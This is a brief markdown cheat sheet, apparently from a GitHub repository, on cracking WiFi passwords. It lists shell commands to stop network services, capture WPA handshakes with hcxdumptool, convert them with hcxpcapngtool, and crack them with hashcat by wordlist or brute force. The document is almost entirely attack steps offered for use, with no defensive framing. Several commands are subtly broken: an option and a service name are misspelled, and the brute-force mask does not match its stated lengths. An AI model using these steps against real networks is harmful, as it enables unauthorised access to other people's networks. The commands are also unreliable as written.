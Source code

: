 # WiFi Hacking

## Capture handshake (manually)

1. Disable network applications
   ```sh
   sudo systemctl stop NetworkManager.service
   sudo systemctl stop wpa_supplicant.service
   ```
2. Find mac addresses
   ```sh
   sudo hcxdumptool --do_rcascan -i wlan0
   ```
3. Capture traffic
   ```sh
   sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_becaon
   ```
4. Enable network applications
   ```sh
   sudo systemctl start NetworkManger.service
   sudo systemctl start wpa_supplicant.service
   ```
5. Decode capture
   ```sh
   hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
   ```
6. Filter contents
   Filter `essidlist` contents and keep the ones that contain the desired mac address.
   Delete the others or create a new file with the target info.

_Alternatively we can use tools like [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) and [wifite](https://github.com/kimocoder/wifite2)._

## Cracking the hash

### Using word list

```sh
hashcat -m 22000 hash.hc22000 wordlist.txt
```

### Brute force

```sh
hashcat -m 22000 hash.hc22000 -a 3 --increment --increment-min 6 --increment-max 20 ?a
```

_Use the same command with --show to output the password._
